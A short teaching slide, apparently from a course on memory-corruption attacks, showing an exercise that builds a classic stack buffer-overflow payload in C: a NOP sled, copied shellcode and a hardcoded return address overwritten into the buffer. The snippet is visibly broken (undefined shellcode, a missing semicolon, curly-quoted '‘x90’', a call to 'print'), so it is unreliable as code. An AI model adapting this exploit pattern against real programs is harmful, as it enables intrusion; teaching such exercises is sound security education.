

# Exercise #3: Slightly harder variant
#define RET 0xbffffce4

int main() {
	char buf[93];

	int ret;
	memset(buf, ‘x90’, 92);
	memcpy(buf, shellcode, strlen(shellcode));
	*(long *) &buf[88] = RET
	buf[92] = 0;
	print(buf);
}